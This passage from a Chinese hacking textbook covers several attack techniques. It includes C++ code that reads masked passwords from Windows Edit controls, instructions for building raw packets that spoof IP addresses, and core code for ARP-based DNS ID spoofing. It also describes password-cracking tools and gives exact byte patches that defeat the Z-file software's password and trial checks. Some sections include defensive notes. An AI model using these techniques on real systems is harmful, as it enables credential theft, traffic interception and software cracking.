

图6-9

#### 六、附录文件说明

附录中有pop3crack.pl是用来破解pop3服务器的。ftpcrack.pl则是用来破解ftp的服务器。hackersword.pl是受lovehacker的启发（那是N年前的事情了），编写的一个针对用户名生成字典的工具。如果你有一个用户名的字典，则不妨就用这个工具来生成密码字典，将用户名进行简单的改变就可以获得很好的破解效果。其原理是：将用户名作为数组，在每一个用户名后面依次添加如：1、12、123等等的数字，或者将用户名与用户名相加。这样配合前两个工具，就可以实现“简单密码扫描”的功能了！

## 6.10 非法探取密码的原理及其防范

### 一、非法获取Password的原理

Edit控件是Windows的一个标准控件，当把其Password属性设为True时，就会将输入内容的屏蔽为星号，从而达到保护的目的。虽然我们看来都是星号，但程序中的Edit控件实际仍是用户输入的密码，应用程序可以获取该控件中的密码，其他应用程序也可以通过向其发送WM_GetText或EM_GetLine消息来获取Edit控件中的内容。黑客程序正是利用Edit控件的这个特性，当发现当前探测的窗口是Edit控件，并且具有ES_Password属性时，则通过SendMessage向此窗口发送WM_GetText或EM_GetLine消息，这样Edit框中的内容就一目了然了。

#### 二、黑客软件工作方法

首先要取得当前的窗口，并判断是否是Edit控件，一般多通过鼠标来指定要探测的窗口，例如在WM_MouseMove消息的响应函数中进行判断，现列举代码片段如下：

```
// 将客户坐标转换成屏幕坐标
ClientToScreen(&point);
// 返回一个包含指定屏幕坐标点的窗口
CWnd*pWnd=CWnd::WindowFromPoint(point);
if(pWnd)
{
// 获取窗口句柄
HWND hwndCurr=pWnd->GetSafeHwnd();
if(::GetWindowThreadProcessId(GetSafeHwnd(), NULL)!=::GetWindowThreadProcessId(hwndCurr,
NULL))
}
char IpClassName[255];
// 获取类名
if(::GetClassName(hwndCurr, IpClassName, 255))
{
// 判断是否是 Edit 控件
if(0==m_setWndClass.CompareNoCase("EDIT"))
{
// 获取窗口风格
LONG IStyle=::GetWindowLong(hwndCurr, GWL_STYLE);
// 如果设置了 ES_PASSWORD 属性
if(IStyle&ES_PASSWORD)
{
char szText[255];
// 通过掌握的句柄 hwndCurr 向此控件发送 WM_GETTEXT 消息
::SendMessage(hwndCurr, WM_GETTEXT, 255,(LPARAM)szText);
// 密码已保存在 szText 中
m_strPassword=szText;
}
}
}
}
```

上述代码中值得注意的有以下几个关键地方：

```
ClientToScreen(&point);
CWnd*pWnd=CWnd::WindowFromPoint(point);
HWND hwndCurr=pWnd->GetSafeHwnd();
```

这3句代码可以获得当前鼠标位置所在的窗口句柄，在SendMessage中要用到的。

```
::SendMessage(hwndCurr, WM_GETTEXT, 255,(LPARAM)szText);
```

这便是真正起作用的SendMessage了，其第一个参数指定了要接受消息的窗口句柄，我们已经通过上面的代码获到了，第二个参数就是让Edit控件返回字符的WM_GETTEXT消息了，并将得到的内容保存在szText中。

#### 三、防范措施

既然我们搞清楚了黑客软件普遍采用的手法，那我们自然能制定出一套防范其攻击的措施来。下面我们就要对Password进行保护。

从以上分析我们可以看出：Edit控件的漏洞主要在于没有对发送WM_GetText消息者的身份进行检查，只要能找到Edit窗口句柄，任何进程都可以获取其内容。所以，必须要对发送消息者的身份进行验证，这里给出一种方法来验证发送消息者的身份是否合法：

创建新CEdit类

从CEdit继承一个子类CPasswordEdit，申明全局变量g_bSenderIdentity表明消息发送者的身份：

```
BOOL g_bSenderIdentity
```

### 6.11 构造自己的数据包发送数据

我们在进行网络编程的时候，经常需要构造自己的数据包，实现一些特别的功能，比如伪造IP、发送自己特定的信息等等，著名的FLOOD攻击就用到了这个技术，应用范围十分广泛。下面介绍的技术需要Winsock2.2函数库的支持，在Windows 2000中已经支持了。

下面我和大家一起从较简单的方面来讨论、学习这个技术，我们以常用的TCP/IP协议的数据包为例：首先，我们先谈谈数据包的第一部分——IP头。请看下面结构描述：

```
typedef struct ip_hdr
{
    unsigned char ip_verlen; //IP 头的版本号，目前是IPv4，最新是IPv6;
    unsigned char ip_tos; //服务类型，定义了数据传输的优先级、延迟、吞吐量和可靠性等特性
    unsigned short ip_totallength; //IP 头的长度，若没有特殊选择，IP 头总是20字节长
    unsigned short ip_id; //IP 包标识，主机使用它唯一确定每个发送的数据报
    unsigned short ip_offset; //IP 数据分割偏移
    unsigned char ip_ttl; //数据报在网络上的存活时间，每通过一个路由器，该数值减一
    unsigned char ip_protocol; //TCP/IP 协议类型，比如：ICMP 为1，IGMP 为2，TCP 为6，
                               //UDP为17等
    unsigned short ip_checksum; 头部检验和
    unsigned int ip_srcaddr; 源IP 地址
    unsigned int ip_destaddr; 目的IP 地址
}ip_header;
```

在IP末尾还有一些选项和数据，这里没有写入结构中。这个结构不难看懂吧？大家接着往下看吧。接下来我们再看看用C描述的TCP报文格式：

```
typedef struct _tcphdr
{
    USHORT th_sport; //16位源端口
    USHORT th_dport; //16位目的端口
    unsigned int th_seq; //32位序列号
    unsigned int th_ack; //32位确认号
    unsigned char th_lenres; //4位首部长度+6位保留字中的4位
    unsigned char th_flag; //2位保留字+6位标志位，2是SYN，1是FIN，16是ACK等等
    USHORT th_win; //16位窗口大小
    USHORT th_sum; //16位校验和
    USHORT th_urp; //16位紧急数据偏移量
}tcp_header;
```

好了，看完这两个结构，我们来看看如何填充这些结构中的数据吧，给出例子：

```
ip_header.ip_verlen = (iIPVersion << 4) | 4;//填充版本号
ip_header.ip_tos = 0;
ip_header.ip_totallength= htons(sizeof(ip_header)+sizeof(tcp_header)+sizeof(data));
// 为了在后面保护自己的数据包必须修改此IP 头长度
ip_header.ip_id = 0;
ip_header.ip_offset = 0;
ip_header.ip_ttl = 128;
ip_header.ip_protocol = 6; //TCP协议
ip_header.ip_checksum = 0; //校验和应先置0，后面再填充
ip_header.ip_srcaddr = inet_addr(SRC_IP); //源IP
ip_header.ip_destaddr = inet_addr(DES_IP); //目的IP
tcp_header.th_dport=htons(DES_PORT); //目的端口号
tcp_header.th_sport=htons(SRC_PORT); //源端口号
tcp_header.th_seq=htonl(0x12345678);
tcp_header.th_ack=0;
tcp_header.th_lenres=(sizeof(tcp_header)/4<<4|0);
tcp_header.th_flag=2; //修改这里来实现不同的标志位探测，2是SYN，1是FIN，16是ACK探测 等等
tcp_header.th_win=htons(512);
tcp_header.th_urp=0;
tcp_header.th_sum=0; //校验和应先置0，后面再填充
```

现在，来谈谈这两个结构的校验和问题，这可是算法上的问题，有点难，大家可以直接拿来用。

IP校验和的计算方法是：首先将IP首部的校验和字段设为0（IP_HEADER.checksum=0），然后计算整个IP首部（包括选项）的二进制反码的和，一个标准的校验和函数如下：

```
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum=0;
    while(size >1)
    {
        cksum+=*buffer++; //把所有的数据相加
        size -=sizeof(USHORT);
    }
    if(size) cksum += *(UCHAR*)buffer;
    cksum = (cksum >> 16) + (cksum & 0xffff); //>>16为右移16位(二进制)，再把cksum
                                              //低16位(二进制)取出，相加
    cksum += (cksum >>16);
    return (USHORT)(~cksum); //取反
}
```

TCP首部检验和与IP首部校验和的计算方法相同，在程序中使用同一个函数来计算。

需要注意的是：由于TCP首部中不包含源地址与目标地址等信息，为了保证TCP校验的有效性，在进行TCP校验和的计算时，需要增加一个TCP伪首部的校验和这只是为了校验和用的，实际并不存在，定义如下：

```
struct
{
    unsigned long saddr; //源地址
    unsigned long daddr; //目的地址
    char mbz; //置空
    char ptcl; //协议类型
    unsigned short tcpl; //TCP长度
}psd_header;
```

然后，我们把这两个字段复制到同一个缓冲区buf中并计算TCP校验和：

```
memcpy(buf,&psd_header,sizeof(psd_header)); //将伪TCP头拷贝到内存中
memcpy(buf+sizeof(psd_header),&tcp_header,sizeof(tcp_header));//将真正TCP头拷贝至伪TCP头末尾
tcp_header.th_sum=checksum((USHORT*)buf,sizeof(psd_header)+sizeof(tcp_header));
//计算校验和
```

计算IP校验和的时候不需要包括TCP伪首部:

```
memcpy(buf,&ip_header,sizeof(ip_header));//将IP头拷贝到内存中
memcpy(buf+sizeof(ip_header),&tcp_header,sizeof(tcp_header));
//将TCP头拷贝至IP头末尾
ip_header.checksum=checksum((USHORT*)buf,sizeof(ip_header)+sizeof(tcp_header)+sizeof(data));//计算校验和
```

最后将计算过校验和的IP首部与TCP首部复制到同一个缓冲区中,如果还有数据应该将数据一起拷贝到缓冲区中,然后就可以直接发送了:

```
sendto(SockRaw,buf,datasize,0,(struct sockaddr*) &DestAddr,sizeof(DestAddr));
```

好了,基本过程我们已经了解,接下来整理一下思路:

- (1)首先,创建一个套接字sock = socket(AF_INET,SOCK_RAW,IPPROTO_IP);用了SOCK_RAW这个参数,表示建立一个原始的套接字。
- (2)对套接字设置选项值,使得能发送自己的数据包,使用函数setsockopt(sock, IPPROTO_IP, IP_HDRINCL, (char *)&blnFlag, sizeof(blnFlag);设定IP_HDRINCL选项,那么,就需要自己来构造IP头。
- (3)填充自己的IP头和TCP头。在填充IP头的时候,ip_header.ip_totallength的值应该设置为IP头长+TCP头长+数据长,例如:ip_header.ip_totallength=htons(sizeof(ip_header)+sizeof(tcp_header)+sizeof(data))。htons()表示将主机的无符号短整形数转换成网络字节顺序。
- (4)进行校验和计算。
- (5)将数据包的头部分和数据拷贝到一个缓冲区。
- (6)最后是进行发送: sendto(SockRaw,buf,datasize,0,(struct sockaddr*) &DestAddr,sizeof(DestAddr))。

下面列出函数的具体使用:

```
int PASCAL FAR sendto( SOCKET s, const char FAR* buf, int len, int flags, const struct sockaddr FAR* to, int tolen);
```

- s:一个标识套接字的描述字。
- buf:包含待发送数据的缓冲区。
- len:buf缓冲区中数据的长度。
- flags:调用方式标志位。
- to:(可选)指针,指向目的套接口的地址。
- tolen:to所指地址的长度。

关于自定义数据包的发送本来就有一定的难度,为了让读者便于理解,本文没有更深入的探讨,也没有给出详细的例程,只停留在表面的讲解,点到即止,还望读者自行深入。

## 6.12 让DNS ID欺骗不再来

### 一、DNS协议的相关数据结构

- 1. DNS数据报:

```
typedef struct dns
{
    unsigned short id;
    //标识,通过它客户端可以将DNS的请求与应答相匹配;
    unsigned short flags;
    //标志:[QR | opcode | AA| TC| RD| RA | zero | rcode ]
    unsigned short quests;
    //问题数目;
    unsigned short answers;
    //资源记录数目;
    unsigned short author;
    //授权资源记录数目;
    unsigned short addition;
    //额外资源记录数目;
}DNS,*PDNS;
```

在16位的标志中:QR位判断是查询/响应报文,opcode区别查询类型,AA判断是否为授权回答,TC判断是否可截断,RD判断是否期望递归查询,RA判断是否为可用递归,zero必须为0,rcode为返回码字段。

- 2. DNS查询数据报:

```
typedef struct query
{
    unsigned char *name;
    //查询的域名,这是一个大小在0到63之间的字符串;
    unsigned short type;
    //查询类型,大约有20个不同的类型
    unsigned short classes;
    //查询类,通常是A类既查询IP地址。
}QUERY,*PQUERY;
```

DNS 响应数据报:

```
typedef struct response
{
    unsigned short name;
    //查询的域名
    unsigned short type;
    //查询类型
    unsigned short classes;
    //类型码
    unsigned int ttl;
    //生存时间
    unsigned short length;
    // 资源数据长度
    unsigned int addr;
    // 资源数据
}RESPONSE, *PRESPONSE;
```

### 二、Windows下DNS ID欺骗的原理

我们可以看到，在DNS数据报头部的ID（标识）是用来匹配响应和请求数据报的。现在，让我们来看看域名解析的整个过程。客户端首先以特定的标识向DNS服务器发送域名查询数据报，在DNS服务器查询之后，以相同的ID号给客户端发送域名响应数据报。这时，客户端会将收到的DNS响应数据报的ID和自己发送的查询数据报ID相比较，如果匹配，则表明接收到的正是自己等待的数据报，如果不匹配则丢弃之。

假如我们能够伪装DNS服务器提前向客户端发送响应数据报，那么客户端的DNS缓存里域名所对应的IP就是我们自定义的IP了，同时客户端也就被带到了我们希望的网站。条件只有一个，那就是我们发送的ID匹配的DNS响应数据报在DNS服务器发送的响应数据报之前到达客户端。下图清楚地展现了DNS ID欺骗的过程：



到此，我想大家都知道了DNS ID欺骗的实质了，那么如何才能实现呢？这要分两种情况：

- (1) 本地主机与DNS服务器，本地主机与客户端主机均不在同一个局域网内，方法有以下几种：向客户端主机随机发送大量DNS响应数据报，命中率很低；向DNS服务器发起拒绝服务攻击，太粗鲁；BIND漏洞，使用范围比较窄。

- (2) 本地主机至少与DNS服务器或客户端主机中的某一台处在同一个局域网内。我们可以通过ARP欺骗来实现可靠而稳定的DNS ID欺骗。

下面我们将详细讨论这种情况。

首先我们进行DNS ID欺骗的基础是ARP欺骗，也就是在局域网内同时欺骗网关和客户端主机（也可能是欺骗网关和DNS服务器，或欺骗DNS服务器和客户端主机）。我们以客户端的名义向网关发送ARP响应数据报，不过其中将源MAC地址改为我们自己主机的MAC地址；同时以网关的名义向客户端主机发送ARP响应数据报，同样将源MAC地址改为我们自己主机的MAC地址。这样一来，网关看来客户端的MAC地址就是我们主机的MAC地址；客户端也认为网关的MAC地址为我们主机的MAC地址。由于在局域网内数据报的传送是建立在MAC地址之上，所以网关和客户端之间的数据流通必须先通过本地主机。详细介绍请参见《详谈调用Winpcap驱动写ARP多功能工具》一文。

在监视网关和客户端主机之间的数据报时，如果发现了客户端发送的DNS查询数据报(目的端口为53)，那么我们可以提前将自己构造的DNS响应数据报发送到客户端。注意：我们必须提取由客户端发送来的DNS查询数据报的ID信息，因为客户端是通过它来进行匹配认证的，这就是一个我们可以利用的DNS漏洞。这样，客户端会先收到我们发送的DNS响应数据报并访问我们自定义的网站，虽然客户端也会收到DNS服务器的响应报文，不过已经来不及了。

#### 三、核心代码分析

主程序创建两个线程，一个线程进行实时的ARP欺骗，另一个线程监听接收到的数据报，若发现有域名服务查询数据报，则立即向客户端发送自定义的DNS响应数据报。测试环境：Windows 2000 + VC6.0 + Winpcap_3.0_alpha，注册表：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\IPEnableRouter = 0x1。

#### 1. Sniff线程:

```
PacketSetHwFilter(lpadapter,NDIS_PACKET_TYPE_PROMISCUOUS);
//将网卡设置为混杂模式
PacketSetBuff(lpadapter,500*1024);
//设置网络适配器的内核缓存;
PacketSetReadTimeout(lpadapter,1);
//设置等待时间;
PacketReceivePacket(lpadapter,lppacketr,TRUE);
//接收网络数据报;
checksum((USHORT *)temp,sizeof(PSD)+sizeof(UDPHDR)+sizeof(DNS)+ulen+sizeof(QUERY)+sizeof(RESPONSE));
//计算校验和;
PacketInitPacket(lppackets,sendbuf,sizeof(ETHDR)+sizeof(IPHDR)+sizeof(UDPHDR)+sizeof(DNS)+ulen+4+sizeof(RESPONSE));
//初始化一个_PACKET结构,发送DNS响应数据报;
```

#### 2. Arpspoof线程:

```
PacketInitPacket(lppackets,sendbuf,sizeof(eth)+sizeof(arp));
//初始化ARP响应数据报;
PacketSendPacket(lpadapter,lppackets,TRUE);
//发送ARP欺骗的响应数据报;
```

#### 3. getmac()函数

```
GetAdaptersInfo(padapterinfo,&adapterinfosize);
//获取网络适配器的属性;
SendARP(destip,0,pulmac,&ullen);
//发送ARP请求数据报,获取网络主机的MAC地址;
```

#### 4. main()函数

```
PacketGetAdapterNames((char *)adaptername,&adapterlength);
//获得本地主机的网络适配器列表和描述;
lpadapter=PacketOpenAdapter(adapterlist[open-1]);
//打开指定的网络适配器;
CreateThread(NULL,0,sniff,NULL,0,&threadrid);
CreateThread(NULL,0,arpspoof,NULL,0,&threadsid);
//创建两个线程;
WaitForMultipleObjects(2,thread,FALSE,INFINITE);
//等待其中的某个线程结束;
```

#### 四、小结

局域网内的网络安全是一个值得大家关注的问题,往往容易发起各种欺骗攻击,这是局域网自身的属性。

## 第7章 加密软件的开发

### 7.1 自己设计伪装加密软件

认识的过程是个渐进的过程，认识过程中可能出现各种对事物的错误认识，而整篇文章的排序又是按照认识的过程来组织排序的，因此望各位同仁认真地阅读完全文，以免产生不完全或错误的认识而枉费我写此文稿的一片苦心。

#### 一、软件简介

Z-file是由中国台湾Infosec公司出品的一款非常有特色的加密软件。与其它软件相比，它最吸引人的地方在于，它是将要加密的文件捆绑隐藏在Bmp图像文件中，以达到伪装加密的目的。

这款软件最大的特点在于它运用了社会工程学原理，它利用了人类对熟悉的人或事物或现象给予的充分信任（信任是人类社会分工合作的基石，是人类的天性，人类那种天生愿意相信他人说辞的倾向让我们大多数人很容易被这种手段所利用），实施了伪装借以逃避可能遭受的检查。

我们知道，一般黑客或入侵系统的人会将全部精力放在对可执行文件及系统主要数据文件的分析上，而很少有人或不会有人注意到普通的图像文件中包含有什么玄机，Z-file软件正是利用人们对图像文件的充分信任这一特点而诞生的。

#### 二、对Z-file文件格式的初步探讨

既然Z-file软件这么神奇，对它文件格式的破译自然会引起我的兴趣。经过一番分析和对加密后的图像文件与加密前的图像文件的反复研究，我得到以下猜想：

- 1. 经过比较文件的图像的色泽、图像的大小、像素、色深以及图像的完整性，发现没有任何异常，由此，猜测文件的图像部分应该没有做任何更改或所做的改动不会引发图像在表述方面的任何异常。

- 2. 经过对两个文件大小的比较发现加密后的文件偏大（用Acdsee看图软件完成，在Acdsee软件的下方有图像文件的大小信息）。由此，猜测加密文件已经将所要加密的信息加入了图像文件中的某个地方，并且加在此处不会引起图像的任何异常。


图7-1

- 3. 在Windows的Ms-dos窗口下用Dos命令fc比较两个文件，结果如图7-1所示，由此发现两个文件前面绝大多数数据是一致的，而文件尾处稍有不同。

#### 三、对Z-file文件格式的进一步探讨

由以上分析我们得出结论——文件的末尾有些特殊，为此，我决定采用16进制编辑软件Winhex对以上文件进行分析。将加密的文件与未加密的文件都用Winhex软件打开，使用其水平排列显示功能，将未加密文件翻转到文件末尾，再将加密文件翻转到相应位置，结果如图7-2所示。

在加密文件中，我们可以发现其多出来的数据是以一串特殊字符串开头的一段数据。是不是此特殊字符串（0000000000000000000000000000010001）决定了图像处理软件对其以及其以下的数据不再处理呢？

为此，我将此特殊字符串复制下来，再将其插入未经加密处理的图像文件中，同时再在文件中写入一段随机数据（如图7-3所示），将其更名后存盘，再用Acdsee图像软件浏览，此时我们可以发现此图像与未经加密处理的图像以及经过加密处理的图像一模一样（如图7-4、图7-5所示）。


图7-2
图7-3


图7-4
图7-5

它是否是由Z-file软件所定义的格式呢？经过Z-file软件加密处理产生如图5所示的结果，此时软件报告密码错误，由此可以判断我们已经基本搞清楚了Z-file文件格式。为了证实我的判断，我决定用经过加密处理的图像文件（除了图像原文件及特殊字符串以外的部分），覆盖经我手工修改的文件的特殊字符串以后的部分，再将其解密处理，结果如图7-6所示，此时我们已经成功地解密了文件。

至此，我得出结论Z-file文件格式是由Bmp图像原文件+特殊字符串+经过加密后的数据组成。由此，我们对Z-file文件格式的分析过程也应该结束了，然而，本人却是个不安分的人，喜欢干些个稀奇古怪的事情——我想看看随意修改特殊字符串会产生什么后果？

没想到这一改就改出了问题，我发现我们可以随意修改特殊字符串，修改它不会对图像产生任何影响，而解密时却发生了密码错误（如图7-5、7-6所示）。这就证明了我的推理过程有问题，特殊字符串不会使图像处理软件对其及其后的数据视而不见，一定有什么别的我们还不知道的方法使图像处理软件对其视而不见！由此，我们不得不学习一下计算机图形学。

#### 四、计算机图形学

##### 1. 图像数据

数字图像在计算机上是以位图（Bitmap）的形式存在的。位图是一个矩形点阵，上面的每一个点称为像素（Pixel）。像素是数字图像中的基本单位。一幅m×n大小的图像，是由m×n个明暗不等的像素组成。在数字图像中各个像素所具有的明暗程度是由一个被称为灰度值（Gray Level）的数字所标识的。

在彩色图像中，每个像素需用三个字节的数据来描述。这是因为任何彩色图像都可以分解成红（R）、绿（G）、蓝（B）三个单色图像，任何一种其它颜色都可以由这三种颜色混合而成。在图像处理中，彩色图像的处理通常是通过对其三个单色图像分别处理来实现的。

##### 2. 图像的采样

通常的图像，如一幅画、一张照片，都应能由一个二维连续函数f(x,y)来描述。其中(x,y)是图像平面上任意一个二维坐标点，f指出该点颜色的深浅。为了便于用计算机来处理图像，图像f(x,y)必须在空间上和在颜色上深浅幅度上都进行数字化。空间坐标(x,y)的数字化被称为图像采样，而颜色深浅幅度的数字化被称为灰度级量化。

假定连续图像f(x,y)被等距离取点采样形成一个N×N方形点阵，它可用下式表示：

```
f(x,y) ≈ {
f(0,0) f(0,1) ...... f(0,N-1)
...... ...... ...... ......
f(N/2,0) f(N/2,1) ...... f(N/2,N-1)
...... ...... ...... ......
f(N-1,0) f(N-1,1) ...... f(N-1,N-1)
```

上式右边就是一个通常所说的数字图像。其中每一个元素称为像素。

进行上述数字处理时，关键是要决定N的大小及给每个像素赋予离散灰度值的许容值G。通常为了便于计算机处理，N值与灰度值G都被设置成2的方次数，即(n,m均为正整数，许容值即用以表示像素的Bit位数)。问题是应该取多少个采样点，取多少个灰度级才比较合适呢？图像的分辨率是与N和m这两个值紧密相关的。这两个值越大，数字图像就越接近原来的连续图像。但是，另一方面，随着N和m的增大，存储图像的空间及处理图像所需的时间也同时迅速地增加。而减少采样点数（缩小N值）将使图像趋于模糊；降低信息记录位数m会使图像质量（指色彩方面）劣化。

##### 3. 图像的数据格式

图像是由排成矩形点阵的像素组成的。因此把一幅图像记录进文件时，必须同时记录下各像素在点阵中的位置及像素的灰度值。但是实际上我们可以利用各像素在文件中的记录位置来暗示其在图像点阵中的位置，这样就可以省去记录像素位置坐标的数据量，而各像素的数据只用来记录其灰度值。但是文件中的数据只能以一维方式记录，而图像点阵是二维的。为了用一维形式记录二维图像，通常采用的办法是将各行像素的数据首尾相连。

图像的尺寸（长与宽，均以像素为单位）通常记录在文件头中（Header），文件头是有关图像整体的信息数据块，除记录图像的尺寸外，还记录诸如像素的位长、图像的颜色表等有关信息。文件头之后才是图像的数据流。因此，图像数据文件是文件头加上数据流。

图像数据的文件格式随着图像的各种信息的内容取舍与记录次序的不同而异。其中，关于图像数据的记录方式基本相同，主要的差异在于文件头（Header）的内容。

#### 五、BitMap文件格式

BitMap文件格式是在MS-WINDOWS3.0以上版本的视窗系统环境下使用的与设备无关的点阵位图文件格式，它允许视窗系统在任何设备上显示这个点阵位图。

每个BitMap文件包含一个文件头，一个位图信息数据块和图像数据。

##### 1. 文件头

文件头是一个BitmapFileHeader数据结构，其内容如图7-7所示：

| 名称 | 类型 | 说明 |
|---|---|---|
| 文件类型 | WORD | 规定文件类型必须是BMI |
| 文件大小 | DWORD | 文件大小由字节数给出 |
| 保留字段1 | WORD | 必须置成0 |
| 保留字段2 | WORD | 必须置成0 |
| 数据偏移 | DWORD | 点阵位图数据区存放的位置 |

其中WORD（2字节）和DWORD（4字节）均为Windows系统定义的数据类型。

##### 位图信息数据

位图信息数据由一个位图信息头和一个颜色表组成。

位图信息头是一个数据结构BitmapInfoHeader，内含有与设备无关点阵位图的尺寸和颜色格式信息，其内容如图7-8所示：

| 名称 | 类型 | 说明 |
|---|---|---|
| biSize | DWORD | BitmapInfoHeader结构占用的字节 |
| biWidth | DWORD | 图像宽度（列数） |
| biHeight | DWORD | 图像高度（行数） |
| biPlanes | WORD | 目标设备的位平面数，必须置1 |
| biBitCount | WORD | 每个像素的位数，必须时1、4、8或24 |
| biCompression | DWORD | 压缩方式，必须为以下值之一<br>BI_RGB:未压缩<br>BI_RLE8:每像素为8位的点阵位图采用行程编码格式<br>BI_RLE4:每像素为4位的点阵位图采用行程编码格式 |
| biSizeImage | DWORD | 图像的字节数 |
| biXPelsPreMeter | DWORD | 目标设备水平方向每米长度上的像素数 |
| biYPelsPreMeter | DWORD | 目标设备垂直方向每米长度上的像素数 |
| biClrUsed | DWORD | 颜色表中点阵位图实际使用的颜色数 |
| biClrImportant | DWORD | 给出重要的颜色索引值，若被置为0，则所有的颜色都是重要的 |

颜色表数据域是可变长的。其长度由位信息头中的BiBitCount值决定。颜色表中的每一项是一个数据结构RgbQuad。项数由BiBitCount值决定，其值如图7-9所示：

| BiBitCount | 颜色表像素 | 说明 |
|---|---|---|
| 1 | 2 | 像素值为0时，使用第一项颜色，为1时使用第二项颜色 |
| 4 | 16 | 若点阵位图数据中某个字节为0X1F，则该字节代表2个像素，第一个像素用第2项颜色，第二个像素用第十六项 |
| 8 | 256 | 点阵位图中每一字节表示一个像素 |
| 24 | 0 | 无颜色表，位图数据中三个字节表示一个像素的红绿蓝值 |

图7-9

数据结构RgbQuad的内容如图7-10所示：

| 名称 | 类型 | 说明 |
|---|---|---|
| rgbBlue | BYTE | 像素颜色中蓝色的成分 |
| rgbGreen | BYTE | 像素颜色中绿色的成分 |
| rgbRed | BYTE | 像素颜色中红色的成分 |
| rgbReserved | BYTE | 未使用，但必须置成0 |

图7-10

##### 2. 位图数据

位图数据的长度由图像尺寸、像素的位数和压缩方式等共同决定。实际尺寸可由文件头中的第二项“文件大小”减去第五项“数据偏移”值得到。

#### 六、对Z-file文件格式的最后探讨

通过对Bmp文件头的研究，我们知道Bmp文件所包含的有效数据（包括文件头、位图信息数据、位图数据）的长度，由文件开始偏移2个字节后的一个双字指示，通过分析发现特殊字符串实际存放的位置位于原文件的末尾（即双字指示的文件长度），且特殊字符串仅对Z-file的还原功能有意义。

由此，我们得出结论，图像加密文件的真正格式应为“图像原文件+加密数据文件”。为检验我们得到的文件格式是否正确，我将一个完整的没有加密过的文本文件的全部内容加入图像原文件，如图7-11所示：


图7-11

另外对存盘后得到的新文件用Acdsee来浏览，发现图像与原图像一模一样，如图7-5所示。且可以随意用Winhex来还原原文本文件，由此可以判定图像加密文件的真正格式就是“图像原文件+加密数据文件”。

#### 七、对Z-file文件格式的改进遐想

由位图信息头可得知，biwidth域（双字类型）值的含义为图像宽度（列数），biheight域（双字类型）值的含义为图像高度（行数），bibitcount域（字节类型）值的含义为像素的位数，即用多少位来表示图像像素的颜色。

图像数据真正占用的字节数应为图像的宽度×图像的高度×像素的位数÷8，经过分析发现图像处理软件正是根据这三个域的值对图像进行处理的，而与图像文件头中给出的文件大小无关。因此，文件头中关于文件大小的域值可以随意修改，为了加强隐蔽性，可将此域的值改为加上加密数据文件后整个图像文件的大小。

由文件头中数据偏移域的值可以得知点阵位图数据区在图像文件中存储的位置。在此，我们可以猜测——若将被加密文件存放在由图像数据偏移域所指向的位置，再将图像数据偏移域的值加上被加密文件的长度，再存放在图像数据偏移域，最后将图像数据紧接其后（注意在进行这步操作时要保存其原始值，否则将很难找到加密数据的开始位置）。

经过以上更改后，对加密数据的存储就不一定要存放在原文件的末尾了，还可以将其存放在由图像数据偏移域指向的地方。经过严格测试此方案可行，具体测试过程略（测试结果如图7-5所示）。

为了进一步提高其隐蔽性，我们可以采用数据分散存储技术，将原文件分成两部分，一部分存放在图像文件末尾，另一部分插入到图像数据所占用的空间。同时，我们还可以修改图像文件头中的文件大小域，使他人一时难以分析出被加密后的文件格式。

至此，我们对Z-file文件格式的分析也该终结了，凭现在我们所掌握的知识，只要稍有编程知识的读者完全可以自行设计一款功能更为强大的伪装加密软件。在此，我仅提供程序流程图给各位以参考之用（参见图7-12）。

附Z-File伪装加密系统的破译方法（软件可从黑客防线第8期附带的光盘中获得）：用Trw2000软件跟踪指令到401496处，发现代码75308B1652E83CC70100，在ZFILEGB.exe文件中将7530改为9090（修改此处的含义是按下确定键可以直接进入试用状态，可不要修改），跟踪指令到41dc94处，发现代码0F84B702000066C746102000，将0f84改为90e9（修改此处的含义是使时间判定失效，可不要修改），跟踪指令到4014d3处，发现代码0F846DFFFF FFA1F41C，将6dffffff改为00000000（修改此处是因为此软件通过此处判断是否输入了合法的密码，不是则跳转）即可。

### 7.2 PictureMagic-CHINA造

在《黑客防线》2002年第8期，有一篇介绍Z-file软件的文章。因为只是一篇介绍功能的文章，没有涉及到伪装加密实现的方法，而且我以前曾经看过一篇利用BMP隐藏机密文件的软件介绍，所以当时也就没有太在意。但当我看完《分析Z-file》（以后简称《分》）一文后却发现，Z-File和我想像的完全不同，其中包含一些重大的安全隐患。

#### 一、Z-File伪装的隐患

